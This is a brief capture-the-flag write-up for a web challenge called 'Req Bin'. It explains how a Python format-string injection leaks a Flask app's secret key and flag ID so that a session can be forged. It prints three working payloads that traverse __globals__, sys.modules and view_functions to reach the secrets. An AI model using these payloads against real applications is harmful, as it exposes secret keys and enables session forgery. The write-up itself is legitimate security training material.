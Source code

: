 # Req Bin

* Round: 29 (2022/12)
* Category: Web
* Points: 100
* Solves: 12

## Description

A customizable request bin

## Solution

Use python format string to leak `secret_key` and `FLAG_ID`, then forge flask session to get flag.

I use `{headers.get.__globals__[os].sys.modules[flask].current_app.secret_key}` and `{headers.get.__globals__[os].sys.modules[main].FLAG_ID}` (because of uwsgi), and some other people uses `view_functions` to get access to main module: `{headers.environ[werkzeug.request]._load_form_data.__globals__[json].current_app.view_functions[record].__globals__[FLAG_ID]}`.
